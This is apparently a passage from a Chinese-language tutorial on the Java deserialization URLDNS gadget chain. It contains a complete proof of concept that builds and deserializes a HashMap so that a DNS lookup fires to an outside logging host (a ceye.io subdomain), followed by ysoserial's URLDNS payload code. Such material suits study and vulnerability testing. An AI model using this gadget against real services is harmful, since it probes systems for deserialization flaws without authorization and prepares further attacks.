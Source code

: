 ```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;

public class Lnh {
    public static void main(String[] args) throws Exception {
        HashMap map = new HashMap();
        URL url = new URL("http://urldns1.eakcmc.ceye.io/");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true); // 修改访问权限
        f.set(url,123); // 设置hashCode值为123，这里可以是任何不为-1的数字
        System.out.println(url.hashCode()); // 获取hashCode的值，验证是否修改成功
        map.put(url,123); // 调用map.put 此时将不会再触发dns查询
        f.set(url,-1); // 将url的hashCode重新设置为-1。确保在反序列化时能够成功触发
        try{
            FileOutputStream fileOutputStream = new FileOutputStream("./urldns.ser");
            ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
            outputStream.writeObject(map);
            outputStream.close();
            fileOutputStream.close();

            FileInputStream fileInputStream = new FileInputStream("./urldns.ser");
            ObjectInputStream inputStream = new ObjectInputStream(fileInputStream);
            inputStream.readObject();
            inputStream.close();
            fileInputStream.close();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

这里是把POC进行了反序列化操作的，所以会收到一次DNS查询记录。

再看下 ysoserial 的POC：

```java
public Object getObject(final String url) throws Exception {
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap(); // HashMap that will contain the URL
        URL u = new URL(null, url, handler); // URL to use as the Key
        ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
        Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
        return ht;
    }
```
